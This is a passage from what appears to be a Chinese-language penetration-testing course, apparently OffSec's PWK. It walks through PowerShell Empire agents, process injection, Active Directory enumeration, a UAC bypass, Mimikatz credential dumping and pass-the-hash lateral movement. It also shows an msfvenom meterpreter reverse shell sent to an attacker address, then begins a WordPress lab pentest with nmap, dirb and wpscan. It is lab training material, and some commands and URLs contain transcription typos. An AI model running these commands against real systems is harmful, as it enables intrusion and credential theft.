killdate        Get or set an agent's killdate (01/01/2016).

list            Lists all active agents (or listeners).

listeners       Jump to the listeners menu.

lostlimit       Task an agent to change the limit on lost agent detection

main            Go back to the main menu.

mimikatz       Runs Invoke-Mimikatz on the client.

psinject        Inject a launcher into a remote process. Ex. psinject <listener> <pid>

pth             Executes PTH for a CredID through Mimikatz.

rename          Rename the agent.

resource        Read and execute a list of Empire commands from a file.

revertoself     Uses credentials/tokens to revert token privileges.

sc              Takes a screenshot, default is PNG. Giving a ratio means using JPEG.

scriptcmd       Execute a function in the currently imported PowerShell script.

scriptimport    Imports a PowerShell script and keeps it in memory in the agent.

searchmodule    Search Empire module names/descriptions.

shell           Task an agent to use a shell command.

sleep           Task an agent to 'sleep interval [jitter]'

spawn           Spawns a new Empire agent for the given listener name. Ex. spawn <listener>

stal_token      Uses credentials/tokens to impersonate a token for a given process ID

sysinfo         Task an agent to get system information.

updateprofile   Update an agent connection profile.
```


`upload` Task an agent to upload a file.

`usemodule` Use an Empire PowerShell module.

`workinghours` Get or set an agent's working hours (9:00-17:00).

```
(Empire: S2Y5XW1L) >
```

清单 832 - 执行 help 命令

与 meterpreter 负载类似，Empire 允许我们将负载迁移到不同的进程中。我们可以先使用 `ps` 查看所有正在运行的进程来实现这一点。一旦选择了目标进程，我们将使用 `psinject` 命令迁移负载，包括监听器名称和进程 ID 作为命令参数：

```
(Empire: S2Y5XW1L) > ps

ProcessName           PID Arch UserName      MemUsage

---------           --- ---- --------      --------

 Idle                  0  x86 N/A           0.00 MB

 System                4  x86 N/A           0.00 MB

 ........

 explorer             3568  x86 corp\offsec  3.41 MB

 svchost              3820  x86 corp\offsec  9.18 MB

 ........

(Empire: S2Y5XW1L) >
```

```
(Empire: S2Y5XW1L) > psinject http 3568

[*] Tasked U9M3SBHG to run TASK_CMD_JOB

[*] Agent U9M3SBHG tasked with task ID 4

[*] Tasked agent U9M3SBHG to run module powershell/management/psinject

Job started: BCMWAV

[*] Agent U9M3SBHG returned results

[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22

[*] New agent DWZ49BAP checked in

[*] Initial agent DWZ49BAP from 10.11.0.22 now active (Slack)

[*] Sending agent (stage 2) to DWZ49BAP at 10.11.0.22 //-->

(Empire: S2Y5XW1L) >
```

清单 833 - 注入到 explorer.exe 进程

值得注意的是，与 meterpreter 负载的迁移功能不同，一旦进程迁移完成，原始的 Empire 代理仍然保持活动状态，我们必须手动切换到新创建的代理，如下所示：

```
(Empire: DWZ49BAP) > agents

[*] Active agents:

Name         Lang Internal IP   Machine Name    Username     Process               Delay

-------      ---- ----------   --------------   ----------   --------------        -------

S2Y5XW1L     ps   10.11.0.22   CLIENT251        corp\offsec  powershell/2976       5/0.0

DWZ49BAP     ps   10.11.0.22   CLIENT251        corp\offsec  explorer/3568         5/0.0

(Empire: agents) > interact DWZ49BAP

(Empire: DWZ49BAP) >
```

清单 834 - 切换到新代理

### 23.1.3.1 练习

既然我们已经介绍了 PowerShell Empire 的基本功能，请自行尝试以下练习以巩固你的知识。

- 1. 在你的 Kali 系统上安装并启动 PowerShell Empire。
- 2. 在你的 Kali 机器上创建一个 PowerShell Empire 监听器，并在你的 Windows 10 客户端上执行一个启动器。
- 3. 实验 PowerShell Empire 代理及其基本功能。

### 23.2 PowerShell 模块

Empire 代理的强大之处在于框架提供的各种模块。我们可以通过运行 `usemodule`，然后按下 `<kbd>空格</kbd>` 键和两次 `<kbd>Tab</kbd>` 键来列出所有可用模块。

```
(Empire: S2Y5XW1L) > usemodule

DisPlay all 204 possibilities? (y or n)

code_execution/invoke_dllinjection

code_execution/invoke_metasploitpayload

code_execution/invoke_ntsd

code_execution/invoke_reflectivepeinjection

code_execution/invoke_shellcode

code_execution/invoke_shellcodemsi1

collection/ChromeDump

collection/FoxDump

collection/USBKeylogger*

collection/WebcamRecorder

collection/browser_data

...
```

清单 835 · PowerShell Empire 中的可用模块

模块分为多个类别，但也包括基本功能，如键盘记录、屏幕截图和文件下载。

#### 23.2.1 态势感知

让我们看看几个模块，了解它们由什么组成。本节中，我们将以专用的 Active Directory 实验环境为目标。

首先，让我们探索 `situational_awareness` 类别。虽然有许多方法和命令可用于执行网络枚举，但该类别的主要重点是本地客户端和 Active Directory 枚举。

Active Directory 枚举模块位于带有 PowerView 前缀的网络子类别中。这是对 @harmj0y 的原始 Veil-PowerView²⁴ 项目的引用。

例如，我们可以使用 `get_user` 模块，然后发出 `info` 命令来显示关于该模块的信息（清单 836）。

> 请密切关注此示例中的语法。要从“empire 基本提示符”选择模块，我们需要包含模块的完整路径。如果我们不在该基本提示符下，我们将使用 `powershell/` 作为模块路径的前缀。

```
(Empire:2Y5X4lL) > usemodule situational_awareness/network/powerview/get_user

(powershell/situational_awareness/network/powerview/get_user) > info

                  Name: Get-DomainUser

         Module: powershell/situational_awareness/network/powerview/get_user

     NeedsAdmin: False

    OpsecSafe: True

      Language: powershell

MinLanguageVersion: 2

   Background: True

 OutputExtension: None

Authors:

  @harmj0y

Description:

 Query information for a given user or users in the specified domain. Part of PowerView.

Comments:

  https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/

Options:

 Name          Required   Value       Description

 ----          --------   -----       -----------

Domain        False                    The domain to use for the query,


defaults to the current domain.

`LDAPFilter`    `False`                    Specifies an LDAP query string that
                                       is used to filter Active Directory objects.

`ServerTimeLimit` `False`                  Specifies the maximum amount of time the

```
²⁴ (PowerShellEmpire, 2019), https://github.com/PowerShellEmpire/PowerTools
```

## FindOne
`False` 用于搜索的服务器耗时。默认值为 120 秒。

## TrustedToAuth
`False` 仅返回一个结果对象。开关。返回受信任用于为其他主体进行身份验证的计算机对象。

## PreauthNotRequired
`False` 开关。返回已设置“不要要求 Kerberos 预身份验证”的用户账户。

## Agent
`True` `$2Y$5XWL` 运行该模块的代理。指定要绑定到的活动目录服务器（域控制器）

## Server
`False`

...

列表 836 `Get-User` 模块信息

请注意，这条较长的 Empire 命令中的换行符不会正确折行。这仅是一个显示问题，不影响我们键入的命令。

让我们看看上述列表中的标题部分。名称、模块和语言字段不言自明。

如果“需要管理员权限” (`NeedsAdmin`) 字段设置为“`True`”，则该脚本需要本地管理员权限。如果“操作安全” (`OpsecSafe`) 字段设置为“`True`”，则该脚本将避免留下泄露痕迹，例如临时磁盘文件或新用户账户。这种以隐蔽性为导向的方法更有机会规避终端保护机制。

“最低语言版本” (`MinLanguageVersion`) 字段描述了执行脚本所需的最低 PowerShell 版本。当处理运行 Windows 7 或 Windows Server 2008 R2 的目标时，这一点尤其相关，因为它们附带的是 PowerShell 版本 2。

“后台” (`Background`) 字段告诉我们该模块是否在后台执行且对受害者不可见，而“输出扩展名” (`OutputExtension`) 字段则告诉我们如果模块将输出返回到文件时的输出格式。

列表 836 中有几个选项。在这个特定模块中，除了“代理” (`Agent`，已设置) 之外的所有选项都是可选的，该模块可以按现状工作，枚举目标活动目录中的所有用户。

我们可以设置任意数量的过滤选项，或如列表 837 所示执行该模块。

```
> (powershell//situational_awareness/network/powerview/get_user) > execute

Job started: LPIOURA

...

distinguishedname : CN=Jeff_Admin,OU=Admins,OU=CorpUsers,DC=corp,DC=com

objectClass : {top, person, organizationalPerson, user}

displayname : Jeff_Admin

lastlogontimestamp : 2/19/2019 8:15:57 PM

userprincipalname : jeff_admin@corp.com

name : Jeff_Admin

objectid : S-1-5-21-3048852426-3234707088-723452474-1104

samaccountname : jeff_admin

admincount : 1

codepage : 0

samaccounttype : USER_OBJECT

accountexpires : NEVER

cn                              : Jeff_Admin

whenchanged                   : 2/19/2019  7:15:57 PM

instancetype                  : 4

uncreated                     : 12613

objectguid                    : 7bbdcc8c-e139-478c-86dd- ab6def0f1d58

lastlogoff                    : 1/1/1601  1:00:00 AM

objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com

dscoperepropagationdata       : [2/19/2019  1:05:25 PM, 2/19/2019  12:56:22 PM, 1/1/1601  12:00:00 ...
```

列表 837 - 执行该模块

除了 `PowerView` 子类别中的枚举工具外，`*situational_awareness*`（态势感知）类别还包含各种各样的网络和端口扫描器。

`*BloodHound*` 模块尤为值得关注。它自动化了 `PowerView` 的许多功能，收集域中的所有计算机、用户和组，以及所有当前登录的用户。输出存储在 CSV 文件中，适合用于后端 `*BloodHound*` 应用程序[725]，该应用程序利用图论[726] 来突出显示活动目录环境中那些常被忽视且高度复杂的攻击路径。

### 23.2.2 凭据与权限提升

`*privesc*`（权限提升）类别包含权限提升模块。该组中一个更有趣的模块是 `*powerup/allechecks*`。[727] 它使用了几种基于配置错误（如未引用的服务路径、服务可执行文件的不当权限等）的技术。

```
(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > execute
Job started: N459AD
[ ] Running Invoke-AllChecks
[ ] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[ ] Run a BypassUAC attack to elevate privileges to admin.
...
```

列表 838 - 使用 PowerUp allchecks 模块

如果我们有权访问本地管理员账户，`*bypassuac_fodhelper*` 模块非常有用。根据本地 Windows 版本的不同，该模块可以绕过 UAC 并启动一个高完整性的 PowerShell Empire 代理：

```
(Empire: S2Y5Xw1L) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > info
Name: Invoke-FodHelperBypass
Module: powershell/privesc/bypassuac_fodhelper
NeedsAdmin: False
OpsecSafe: False
Language: powershell
MinLanguageVersion: 2
Background: True
OutputExtension: None
Authors:
Petr Medonos
Description:
Bypasses UAC by performing an registry modification for FodHelper (based on https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)
Comments:
https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/
```


| 名称 | 是否必填 | 值 | 描述 |
|------------|----------|---------|----------------------------------------------------------------------|
| `Listener` | True | | 要使用的监听器。 |
| `UserAgent` | False | default | 用于暂存请求的用户代理字符串（默认、无或其他）。 |
| `Proxy` | False | default | 用于请求的代理（默认、无或其他）。 |
| `Agent` | True | `S2Y5XWlL` | 运行该模块的代理。 |
| `ProxyCreds` | False | default | 用于请求的代理凭据（`{[domain\]username:password`，默认、无或其他）。 |

```
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http

(Empire: powershell/privesc/bypassuac_fodhelper) > execute

[>] Module is not opsec safe, run? [y/N] y

(Empire: powershell/privesc/bypassuac_fodhelper) >

Job started: 45TVDU

[+] Initial agent K678VC13 from 10.11.0.22 now active (Slack)

(Empire: powershell/privesc/bypassuac_fodhelper) >
```

### 列表 839 - 使用 PowerShell Empire 绕过 UAC

一旦我们获得了高完整性会话，就可以执行需要本地管理员或 SYSTEM 权限的操作，例如运行 `mimikatz` 以转储缓存的凭据。

```
(Empire: agents) > interact K678VC13

(Empire: K678VC13) > usemodule credentials/

credential_injection* mimikatz/extract_tickets mimikatz/sam*

enum_cred_store    mimikatz/golden_ticket mimikatz/silver_ticket

invoke_kerberoast mimikatz/keys* mimikatz/trust_keys*

mimikatz/cache* mimikatz/logonpasswords* powerdump*

mimikatz/certs* mimikatz/lsadump* sessiongopher

mimikatz/command* mimikatz/mimiktokens* tokens

mimikatz/dcsync mimikatz/pth* vault_credential*

mimikatz/dcsync_hashdump mimikatz/purge*
```

### 列表 840 - PowerShell Empire 中的 Mimikatz

列表 840 中的凭据类别包含多个已移植到 Empire 的 `mimikatz` 命令。标记有星号的命令需要高完整性的 Empire 代理。

Empire 使用反射式 DLL 注入[^728] 直接从内存中加载 `mimikatz` 库到代理中。

以这种方式加载我们的恶意可执行文件可以最小化被检测的风险，因为大多数 EDR 解决方案仅分析存储在硬盘上的文件。

> 此方法已自定义编码到代理中，因为 Windows 未公开任何官方 API（类似于 `LoadLibrary`）来实现相同的目标。

让我们来看看像 `logonpasswords` 这样的高完整性访问模块：

```
(Empire: K678VC13) > usenamespace credentials/mimikatz/logonpasswords

(Empire: powershell/credentials/mimikatz/logonpasswords) > execute

Job started: NXX271

Hostname: client251.corp.com / S-1-5-21-3048852426-3234707088-723452474

mimikatz(powershell) # sekurasa::logonpasswords

Authentication Id : 0 ; 244851 (00000000:0003bc73)

Session : Interactive from 1

User Name : offsec

Domain : corp

Logon Server : DC01

Logon Time : 2/20/2019 10:36:32 PM

SID : S-1-5-21-3048852426-3234707088-723452474-1103

msv :

[00000003] Primary

* Username : offsec

* Domain : corp

* NTLM : e2b475c11da2a0748290d87aa966c327

* SHA1 : 8c77f430e4a8bacb10ead387d64011c76400d26e

* DPAPI : c10c264a27b63c4e66728bef4be8aab

tspkg :

wdigest :

* Username : offsec
```

[725] (BloodHoundAD, 2019). https://github.com/BloodHoundAD/BloodHound
[726] (Andy Robbins, 2017). https://nee4j.com/blog/bloodhound-how-graphs-changed-the-way-hackers-attack/
[727] (PowerShellEmpire, 2019). https://www.powershilempire.com/?page_id=378
[728] (Stephen Fewer, 2013), https://github.com/stephenfewer/ReflectiveDLLInjection


```
* Domain    : corp

* Password  : (null)

kerberos :

* Username  : offsec

* Domain    : CORP.COM

* Password  : (null)

ssp :

credman :

...
```

### 列表 841 - 在 PowerShell Empire 中执行 mimikatz

此输出与 `mimikatz` 相同，但收集的凭据也被写入到凭据存储中，可以使用 `creds` 进行枚举：

```
(Empire: K678VC13) > creds

Credentials:

        CredID    CredType    Domain    UserName    Host    Password

        ------    --------    ------    --------    ----    --------

1       hash      corp.com    offsec    client251   e2b475c11da2a0748290d87aa966c32

2       hash      corp.com    CLIENT251$    client251   4d4ae0e7cb16d4cf6a91412b3d80ed
```

列表 842 - 凭据存储

我们也可以使用 `creds add` 手动将数据输入到凭据存储中，如列表 843 所示。

```
(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty89!

Credentials:

        CredID    CredType    Domain    UserName    Host    Password
```


------    --------    ------    --------    ----    --------

1       hash      corp.com    offsec    client251   e2b475c11da2a0748290d87aa966c32

2       hash      corp.com    CLIENT251$    client251   4d4ae0e7cb16d4cf6a91412b3d80ed

3       plaintext corp.com    jeff_admin  Qwerty89!

列表 843 - 向凭据存储中添加凭据

### 23.2.3 横向移动

一旦我们获得有效的用户凭据，就可以使用它们登录到额外的系统，直到我们达成目标。这被称为横向移动。

在我们的实验室环境中，域控制器位于内部网络上，这意味着我们无法从我们的 Kali 虚拟机访问它。为了演示在 Empire 中进行横向移动的机制，我们将在 Windows 10 客户端上以另一个用户的身份加载另一个 shell。

虽然这个例子由于只有一个目标虚拟机而有所简化，但在实际场景中移动到不同的远程主机时，该过程的机制是相同的。

在 `lateral_movement` 类别中有各种向量，我们可以使用它们来在远程主机上调用 Empire agent。

```
(Empire: K678VC13) > usemodule lateral_movement/technique

invoke_relay    invoke_psremoting   invoke_wmi

invoke_dcom     invoke_smbexec      invoke_wmi_debugger
```

| Invoke-ExecuteMSBuild | Invoke-Sqlolscmd | Jenkins_Script_Console |
|---|---|---|
| Invoke-PsExec | Invoke-SshCommand | New_GPO_Immediate_Task |

列表 844 - 横向移动技术

作为一个例子，我们将尝试 `invoke_smexec` 模块，该模块需要几个参数。

我们将 `ComputerName` 设置为 Windows 10 客户端的主机名（`client251`），并将 `Listener` 设置为 "`http`" 。我们还将使用上一节（列表 843）中找到的 `jeff_admin` 用户账户的相关数据设置 `Username`、`Domain` 和 `Hash` 参数。这配置在列表 845 中。

> *我们可以使用 `set CredID` 命令指定凭据存储中条目的 ID 编号，或者手动输入所有凭据。请注意，在这种情况下，Offsec 和 Jeff_admin 的密码是一样的。*

```
(Empire: K678VC13) > usemodule lateral_movement/invoke_smexec

(Empire: powershell/lateral_movement/invoke_smexec) > info

Name: Invoke-SMExec

Module: powershell/lateral_movement/invoke_smexec

NeedsAdmin: False

OpsecSafe: True

Language: powershell

MinLanguageVersion: 2

Background: False

OutputExtension: None

...
```

| 名称 | 必填 | 值 | 描述 |
|---|---|---|---|
| CredID | 否 | | 要使用的存储中的 CredID。 |
| ComputerName | 是 | | 要执行 stager 的主机，用逗号分隔。 |
| Service | 否 | | 要创建和删除的服务名称。默认为 20 个字符的随机数。 |
| ProxyCreds | 否 | 默认 | 用于请求的代理凭据 ([domain\]username:password)（默认、无或其他）。 |
| Username | 是 | | 用户名。 |
| Domain | 否 | | 域名。 |
| Hash | 是 | | 格式为 LM:NTLM 或 NTLM 的 NTLM 哈希。 |
| Agent | 是 | K678VC13 | 运行模块的 Agent。 |
| Listener | 是 | | 要使用的监听器。 |

```
...
(Empire: powershell/lateral_movement/invoke_smexec) > set ComputerName client251
(Empire: powershell/lateral_movement/invoke_smexec) > set Listener http
```

```
(Empire: powershell/lateral_movement/invoke_smbexec) > set Username jeff_admin
(Empire: powershell/lateral_movement/invoke_smbexec) > set Hash e2b475c11da2a0748290d87aa96c327
(Empire: powershell/lateral_movement/invoke_smbexec) > set Domain corp.com
(Empire: powershell/lateral_movement/invoke_smbexec) > execute

Command executed with service CVTERKCMPPMECQLRWLBK on client251

[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22

[*] New agent UVXZ2NC3 checked in

[+] Initial agent UVXZ2NC3 from 10.11.0.22 now active (Slack)

...
```

> 列表 845 - 使用 PowerShell Empire 执行横向移动

太好了！Agent 已成功部署，我们现在可以与它交互：

```
(Empire: K678VC13) > agents
[*] Active agents:
(Empire: agents) > interact UVXZ2NC3
(Empire: UVXZ2NC3) >
```

| 名称 | 语言 | 内部 IP | 机器名称 | 用户名 | 进程 | 延迟 |
|------|------|-----------|------------|----------|---------|-------|
| S2Y5XW1L | ps | 10.11.0.22 | CLIENT251 | corp\offsec | powershell\2976 | 5/0.0 |
| DWZ49BAP | ps | 10.11.0.22 | CLIENT251 | corp\offsec | explorer\3568 | 5/0.0 |
| K678VC13 | ps | 10.11.0.22 | CLIENT251 | *corp\offsec | powershell\6236 | 5/0.0 |
| UVXZ2NC3 | ps | 10.11.0.22 | CLIENT251 | *corp\SYSTEM | powershell\3912 | 5/0.0 |

> 列表 846 - 列出并交互新的 PowerShell Empire agent

### 23.3 在 Empire 和 Metasploit 之间切换

Empire agent 支持许多功能。然而，通常我们需要使用仅在 Metasploit 中找到的功能。由于我们可以在同一台受感染的主机上拥有 Empire 和 Metasploit shell，这实际上相当容易。

> 在 PowerShell Empire 版本 2.4 中，可以使用 meterpreter 监听器和 `injectshellcode` 模块直接从 PowerShell 在内存中注入 meterpreter shellcode。但是，在最新版本（2.5）中，不幸的是此代码已损坏。

如果主机上有一个活动的 PowerShell Empire agent，我们可以使用 `msfvenom` 生成一个 meterpreter 反向 shell 可执行文件。

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe

[=] No platform was selected, choosing Msf::Module::IPlatform::Windows from the payload
```


[~] No arch selected, selecting arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 633 bytes

Final size of exe file: 73802 bytes

Saved as: `met.exe`


*列表 847 - 生成 meterpreter 载荷*

然后，我们使用 **`multi/handler`** 模块和之前选择的设置设置一个 Metasploit 监听器：

```
msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http

payload => windows/meterpreter/reverse_http

msf5 exploit(multi/handler) > set LPORT 7777

LPORT => 7777

msf5 exploit(multi/handler) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.11.0.4:7777
```

*列表 848 - Metasploit 监听器以捕获反向 shell*

现在，我们切换回我们的 PowerShell Empire shell 并上传可执行文件：

```
Empire: S2Y5XWIL> upload /home/kali/met.exe

[*] Tasked agent to upload met.exe, 72 KB

[*] Tasked S2Y5XWIL to run TASK_UPLOAD

[*] Agent S2Y5XWIL tasked with task ID 12

[*] Agent S2Y5XWIL returned results.

[*] Valid results returned by 10.11.0.22

Empire: S2Y5XWIL> shell dir

[*] Tasked S2Y5XWIL to run TASK_SHELL

[*] Agent S2Y5XWIL tasked with task ID 3

[*] Agent S2Y5XWIL returned results.

Directory: C:\Users\offsec.corp\Downloads>

Mode      LastWriteTime      Length Name

----      -------------      ------ ----

-a----  10/2/2019  11:24 AM  73802 met.exe

..Command execution completed.

[*] Valid results returned by 10.11.0.22
```

*列表 849 - 上传 meterpreter 可执行文件*

上传可执行文件后，我们发出 **`dir`** shell 命令（列表 849）以显示其位置并执行它：

```
(Empire: S2Y5XWIL) > shell C:\Users\offsec.corp\Downloads\met.exe

[*] Tasked S2Y5XWIL to run TASK_SHELL

[*] Agent S2Y5XWIL tasked with task ID 5
```

## 23.3.1.1 练习

- 1. 设置 PowerShell Empire 监听器和植入层，并获取一个可工作的代理（Agent）。
- 2. 使用各种模块对域进行信息收集（Enumeration）。
- 3. 使用账户 Jeff_Admin 进行远程桌面登录，以确保凭据被缓存在 Windows 10 客户端上，然后使用 PowerShell Empire 提取（dump）这些凭据。
- 4. 实验使用不同的横向移动模块。

## 23.4 总结

在本模块中，我们介绍了 PowerShell Empire 的基本语法和功能，例如监听器（listeners）、植入层（stagers）和代理（agents）。我们还探索了各种模块，用于执行信息收集、获取凭据以及进行横向移动。最后，我们研究了如何将 PowerShell Empire 和 Metasploit 结合使用。

## 24. 组装碎片：渗透测试拆解

既然我们已经介绍了渗透测试的各个独立部分，现在是时候将它们整合在一起了。在本模块中，我们将进行一次受真实世界发现启发的模拟渗透测试。

尽管我们在本练习中的目标是获取环境中的域管理员权限，但重要的是要注意，这并不总是渗透测试的最终目标。我们的目标应由客户的数据基础设施和商业模式决定。例如，如果客户的主营业务是数据存储，那么我们的目标就是获取这些数据。这是因为这种性质的泄露会对客户造成最重大的影响。在大多数情况下，域管理员权限将帮助我们实现这一目标，但这并不总是如此。

在这次渗透测试中，我们将在信息收集和漏洞利用之间来回切换。我们将花费一些时间在信息收集阶段，以确保我们用于漏洞利用的方法是可靠的。我们还将回顾一些容易犯的错误，并讨论为什么在目标上获取 root/管理员权限并非总是必要的。

我们虚构的客户向我们提供了一个名为“sandbox.local”的初始目标，并指出被攻陷的域管理员账户将对他们的业务产生最大的影响。sandbox 网络可以通过实验室 VPN 访问，其网络布局如图 317 所示。


> 该域可以通过 PWK VPN 访问，但需要我们在 `/etc/hosts` 文件中添加一个条目。首先，我们将通过复制 `/etc/hosts` 到我们主目录下的 `hosts.orig` 来备份现有文件。现在，我们将运行 `sudo bash -c " echo '10.11.1.250 sandbox.local' >> /etc/hosts"` 来添加一个条目，这将允许我们通过其 DNS 名称联系该域。设置完成后，我们可以继续。

### 24.1 公共网络信息收集

我们将首先通过对可通过 DNS 名称 sandbox.local 解析的外部主机进行扫描来开始。为此，我们将使用 Nmap 并执行以下命令：

```bash
kali@kali:~$ sudo nmap -sC -sS -p0-65535 sandbox.local
```

**列表 855** - 初始发现的 Nmap 命令

**列表 855** 中的命令将使用 Nmap 的默认脚本集（`-sC`），使用 SYN 扫描以加快运行时间（`-sS`），扫描所有端口（`-p0-65535`），并且仅针对 sandbox.local 网络。

Nmap 扫描结果可以在**列表 856** 中找到。

```
Nmap scan report for sandbox.local (10.11.1.250) 
Host is up (0.00060s latency). 
Not shown: 65534 filtered ports
PORT STATE SERVICE
22/tcp open ssh 
| ssh-hostkey:
| 2048 86:8f:89:36:79:2f:44:b2:61:18:a4:fb:d5:a1:f3:43 (RSA)
| 256 de:f3:84:f1:cd:f3:c8:9a:30:6d:60:e8:b1:1d:99:27 (ECDSA)
|_ 256 14:6a:ba:77:e0:57:e5:0c:c0:cc:76:31:91:8d:dd:9f (ED25519)
80/tcp open http 
|_http-generator: WordPress 5.3
|_http-title: SandBox &#8211; See the future, Feel the shine
MAC Address: 00:50:56:8A:C8:51 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 111.66 seconds
```


**列表 856** - 初始发现的 Nmap 扫描

让我们回顾一下此次扫描的结果。首先，Nmap 扫描仅揭示了两个开放端口：22 和 80。Nmap 指纹识别出这些端口上分别运行着 SSH 服务和 HTTP 服务。Nmap 默认的插件集还揭示了 `ssh-hostkeys`。

HTTP 服务向我们表明，运行的应用程序可能是 WordPress 5.3。SSH 服务暴露的风险通常远低于 HTTP 服务暴露的风险。因此，HTTP 服务似乎是攻陷 `sandbox.local` 环境的更好的起点。

### 24.2 针对 Web 应用程序

我们采取的第一步只是访问 Web 应用程序的主页。


**图 318**: 访问 Sandbox.local 网页

主页看起来是一个相当标准的公司着陆页。导航栏中的所有链接都指向主页上的锚点，左下角有一个调查，询问反馈意见。似乎没有其他供用户控制输入的字段。

Nmap 扫描表明网页运行在 WordPress 5.3 上，但要确认这一点，需要进一步的信息收集。

虽然 WordPress 核心本身已暴露过一些漏洞，但 WordPress 开发人员会迅速修补它们。然而，主题和插件是由社区编写的，许多漏洞要么被不当修补，要么从未被修复。

这使得 WordPress 成为攻陷的一个绝佳目标。

#### 24.2.1 Web 应用程序信息收集

在我们开始具体针对 WordPress 之前，让我们进行一次基本的目录暴力破解，以发现任何潜在的敏感文件，并确认该站点正在运行 WordPress。为此，我们将使用 `dirb`，如下所示。

```bash
kali@kali:~$ dirb http://sandbox.local
```

**列表 857** - 对 `sandbox.local` 的 `dirb` 扫描

虽然 `dirb` 有很多我们可以使用的标志和功能，但我们选择运行一个简单的测试。我们命令的输出可以在**列表 858** 中找到。

```
---  Scanning URL: http://sandbox.local/ ---

+ http://sandbox.local/index.php (CODE:301|SIZE:0)

+ http://sandbox.local/server-status (CODE:403|SIZE:278)

=>  DIRECTORY: http://sandbox.local/wp-admin/

=>  DIRECTORY: http://sandbox.local/wp-content/

=>  DIRECTORY: http://sandbox.local/wp-includes/

+ http://sandbox.local/xmlrpc.php (CODE:405|SIZE:42)

--- Entering directory: http://sandbox.local/wp-admin/ ---

+ http://sandbox.local/wp-admin/admin.php (CODE:302|SIZE:0)

=>  DIRECTORY: http://sandbox.local/wp-admin/css/

=>  DIRECTORY: http://sandbox.local/wp-admin/images/

=>  DIRECTORY: http://sandbox.local/wp-admin/includes/

+ http://sandbox.local/wp-admin/index.php (CODE:302|SIZE:0)

=>  DIRECTORY: http://sandbox.local/wp-admin/js/

=>  DIRECTORY: http://sandbox.local/wp-admin/lang/

=>  DIRECTORY: http://sandbox.local/wp-admin/network/

=>  DIRECTORY: http://sandbox.local/wp-admin/user/

--- Entering directory: http://sandbox.local/wp-content/ ---

+ http://sandbox.local/wp-content/index.php (CODE:200|SIZE:0)

=>  DIRECTORY: http://sandbox.local/wp-content/plugins/

=>  DIRECTORY: http://sandbox.local/wp-content/themes/

=>  DIRECTORY: http://sandbox.local/wp-content/upgrade/

=>  DIRECTORY: http://sandbox.local/wp-content/uploads/

--- Entering directory: http://sandbox.local/wp-includes/ ---

(!) WARNING: Directory IS LISTABLE. No need to scan it.

(Use mode '-w' if you want to scan it anyway)

--- Entering directory: http://sandbox.local/wp-admin/css/ ---

(!) WARNING: Directory IS LISTABLE. No need to scan it.

(Use mode '-w' if you want to scan it anyway)

-----

END_TIME: Mon Dec  9 13:00:40 2019

DOWNLOADED: 32284 - FOUND: 12
```

**列表 858** - `dirb` 扫描的输出

我们的扫描在目标上揭示了常见的 WordPress 目录（`wp-admin`、`wp-content` 和 `wp-includes`）。我们还发现了一些可列目录（listable directories）；然而，这些是常见的 WordPress 目录，可能不会揭示太多信息。

让我们继续进行一次更具体的扫描，使用 WPScan，这是一个利用已知漏洞数据库来发现 WordPress 实例安全问题的 WordPress 漏洞扫描器。

为了进行彻底扫描，我们需要提供目标的 URL（`-url`）并配置 `enumerate` 选项以包含 "All Plugins"（`ap`）、"All Themes"（`at`）、"Config backups"（`cb`）和 'Db exports'（`dbe`）。最终命令可以在下面的**列表 859** 中找到。

```
kali@kali:~$ wpscan --url sandbox.local --enumerate ap,at,cb,dbe
```

### 列表 859 - 运行 `wpscan` 的命令

WPScan 会输出有关目标系统的有用信息：

```
[i] 已识别的插件(s)：

[+] elementor

| 位置：http://sandbox.local/wp-content/plugins/elementor/

| 最后更新时间：2019-12-08T17:19:00.000Z

| [!] 版本已过时，最新版本为 2.7.6

| 发现方式：主页中的 Urls（被动检测）

| 版本：2.7.4（100% 置信度）

| 发现方式：查询参数（被动检测）

| - http://sandbox.local/wp-content/plugins/elementor/assets/css/frontend.min.css?ver=2.7.4

| - http://sandbox.local/wp-content/plugins/elementor/assets/js/frontend.min.js?ver=2.7.4

| 确认方式：Readme - Stable Tag（主动检测）

| - http://sandbox.local/wp-content/plugins/elementor/readme.txt

[+] ocean-extra

| 位置：http://sandbox.local/wp-content/plugins/ocean-extra/

| 最后更新时间：2019-11-13T16:17:00.000Z

| [!] 版本已过时，最新版本为 1.5.19

| 发现方式：主页中的 Urls（被动检测）

| 版本：1.5.16（100% 置信度）

| 发现方式：Readme - Stable Tag（主动检测）

| - http://sandbox.local/wp-content/plugins/ocean-extra/readme.txt

| 确认方式：Readme - Changelog 部分（主动检测）
```


- `http://sandbox.local/wp-content/plugins/ocean-extra/readme.txt`

[+] `wp-survey-and-poll`

| 位置：`http://sandbox.local/wp-content/plugins/wp-survey-and-poll/`

| 最后更新时间：`2019-10-15T10:32:00.000Z`

| [!] 版本已过时，最新版本为 `1.5.8.2`

| 发现方式：主页中的 Urls（被动检测）

| 版本：`1.5.7.3`（50% 置信度）

| 发现方式：Readme - Changelog 部分（主动检测）

| - `http://sandbox.local/wp-content/plugins/wp-survey-and-poll/readme.txt`

[+] 枚举所有主题（通过被动和主动方法）

### 列表 860 - wpscan 扫描的输出

我们发现的三个已安装插件是最有趣的项目：`elementor`、`ocean-extra` 和 `wp-survey-and-poll`。WPScan 拥有自己的漏洞数据库，工具可以使用它，但需要注册。为了避免注册，由于我们只发现了三个插件，我们可以使用 `searchsploit` 来查找已安装插件中可能的漏洞。使用 `--update` 选项更新 `searchsploit` 后，我们可以搜索每个插件。

```bash
